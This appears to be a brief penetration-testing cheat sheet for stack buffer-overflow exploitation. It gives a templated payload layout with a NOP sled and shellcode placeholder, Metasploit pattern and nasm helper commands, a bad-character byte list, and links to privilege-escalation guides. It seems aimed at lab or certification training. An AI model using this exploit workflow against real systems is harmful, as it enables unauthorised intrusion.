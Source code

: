 Triple check the bad characters.

# Payload

 `payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_le
 ngth>
`
 # Pattern create
` /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>
`
 # Pattern offset
` /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <address>
`
 # nasm
` /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
 nasm > jmp eax`

 # Bad characters
 `badchars = (
 "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
 "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
 "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
 "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
 "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
 "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
 "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
 "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
 "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
 "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
 "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
 "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
 "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
 "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
 "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
 "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
`



# Privilege Escalation

The privilege escalation bible:

1. `g0tmi1k’s (https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)` post for Linux
2. `fuzzysecurity’s (http://www.fuzzysecurity.com/tutorials/16.html)` post for Windows.
